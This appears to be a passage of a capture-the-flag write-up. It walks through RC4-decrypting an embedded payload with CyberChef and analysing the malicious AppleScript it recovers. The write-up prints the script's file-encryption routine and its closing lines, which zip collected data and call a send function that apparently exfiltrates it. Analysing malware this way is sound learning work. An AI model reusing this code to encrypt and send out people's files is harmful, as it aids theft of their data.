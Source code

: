 
![](https://i.imgur.com/GUIIBUQ.png)

  

### RC4 Decrypt

To decrypt the original data, we have to extract the long hexadecimal value at `aA37c59750ed63b` and clean it up using [CyberChef](http://gchq.github.io/CyberChef/#recipe=Regular_expression('User%20defined','%5C'.*%5C'',true,true,false,false,false,false,'List%20matches')Find_/_Replace(%7B'option':'Regex','string':'%5C''%7D,'',true,false,true,false)Remove_whitespace(true,true,true,true,true,false)&oenc=65001&ieol=CRLF) to be used.

  

*There should be better way to do this, but here's how I did it*

  

![](https://i.imgur.com/eImgR1o.png)

  

After that I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=Regular_expression('User%20defined','%5C'.*%5C'',true,true,false,false,false,false,'List%20matches')Find_/_Replace(%7B'option':'Regex','string':'%5C''%7D,'',true,false,true,false)Remove_whitespace(true,true,true,true,true,false)&oenc=65001&ieol=CRLF) to decrypt the encrypted data and the original malicious OSA Script can be found.

  

![](https://i.imgur.com/8vrj8v5.png)

  

### Encrypt Flag function

Upon analyzing the malicious OSA script, the `encryptFlag` function appears to be responsible for encrypting the flag. At the end of the script, the input files and the output file used for the encryption process can be found.

  

```osascript

on encryptFlag(sussyfile, inputFile, outputFile)

    set hexKey to (do shell script "md5 -q " & sussyfile)

    set hexIV to (do shell script "echo \"" & hexKey & "\" | rev")

    do shell script "openssl enc -aes-128-cbc -in " & quoted form of inputFile & " -out " & quoted form of outputFile & " -K " & hexKey & " -iv " & hexIV

end encryptFlag

  

set sussyfile to "~/Downloads/bangboo.png"

set inputFile to "/tmp/flag.png"

set outputFile to "/tmp/flag.enc"

  

encryptFlag(sussyfile, inputFile, outputFile)

do shell script "cd /tmp && zip -r out.zip " & writemind & " flag.enc"

send_data(0)
```